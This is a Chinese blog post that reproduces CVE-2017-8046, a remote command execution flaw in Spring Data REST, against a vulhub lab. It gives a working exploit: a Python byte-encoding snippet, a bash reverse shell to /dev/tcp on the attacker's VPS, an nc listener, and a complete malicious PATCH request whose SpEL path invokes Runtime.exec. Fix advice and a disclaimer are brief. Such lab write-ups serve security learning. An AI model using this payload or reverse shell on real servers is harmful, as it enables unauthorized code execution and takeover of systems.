



# 漏洞复现-CVE-2017-8046-Spring Data Rest 远程命令执行 - 铺哩 - 博客园

> 原文：[`www.cnblogs.com/cute-puli/p/15337001.html`](https://www.cnblogs.com/cute-puli/p/15337001.html)

# 0x00 实验环境

攻击机：Win 10

靶场：docker 拉的 vulhub 靶场

# 0x01 影响版本

Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
Spring Boot version < 2.0.0 M4
Spring Data release trains < Kay-RC3

# 0x02 漏洞复现

（1）访问页面时发现仅存在**spring**接口提示：



此时特别想感叹一句我以前到底错过了多少漏洞！因为以前经常碰到这种页面。

 （2）首先生成**ascii**的命令：

```
payload = b'touch /tmp/success' bytecode = ','.join(str(i) for i in list(payload)) print(bytecode)
```


（3）修改一下需要执行的反弹 shell 的命令：

```
bash -i >& /dev/tcp/vps 的 ip/7777 0>&1
```

（4）弹 shell 的命令可以直接先构造好，然后在以下网站进行编码，这是因为 Linux 的命令行有的时候无法识别一些符号的命令：

```
网址：http://www.jackson-t.ca/runtime-exec-payloads.html
```



（5）然后再转**ascii**：


（6）下面使用 payload 进行测试，照常理，我们需要先在自己的服务器开启监听，然后再发送 payload：

```
nc -lvp 7777
```


（7）发送如下 payload，其中，exec 后面执行的编码替换为你生成的 ascii 命令，如下还没有替换，请自行替换：

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```



如下所示，shell 就反弹至自己的 vps 上了：

# 0x03 漏洞原理

Spring-data-rest 服务器在处理 PATCH 请求时，攻击者可以构造恶意的 PATCH 请求并发送给 spring-date-rest 服务器，通过构造好的 JSON 数据来执行任意 Java 代码。

# 0x04 修复建议

官方已经发布新版本修复了该漏洞，受影响的用户可升级至最新版本来防护该漏洞。

# 0x05 参考文献

https://blog.csdn.net/baidu_38844729/article/details/107149916

# 0x06 免责声明

本漏洞复现文章仅用于学习、工作与兴趣爱好，并立志为网络安全奉献一份力量，凡是利用本博客相关内容的无良**hackers**造成的安全事故均与本人无关！